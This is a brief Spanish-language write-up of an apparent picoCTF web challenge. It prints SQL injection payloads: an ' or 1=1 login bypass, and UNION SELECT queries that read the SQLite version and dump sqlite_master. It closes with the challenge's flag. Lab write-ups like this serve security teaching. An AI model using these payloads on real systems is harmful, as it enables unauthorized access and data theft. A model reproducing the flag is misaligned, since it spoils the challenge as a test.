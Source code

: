 ## Descripción :
	Can you find the flag on this website.
	Additional details will be available after launching your challenge instance.

## Solución :
		Una vez en la pagina dada, intento entar al login con la inyeccion sql ' or 1=1;' y me da acceso, una vez dentro saco la version del sqlite con :' union select sqlite_version(),2,3;'
			y ahora con esta consulta obtuve la estructura de las tablas :Algiers' union select sql,2,3 from sqlite_master;
	
y ahora con esta ultima consulta consegui la flag que estaba en la posicion 3 de la tabla more_tables:

	Flag : 
	picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}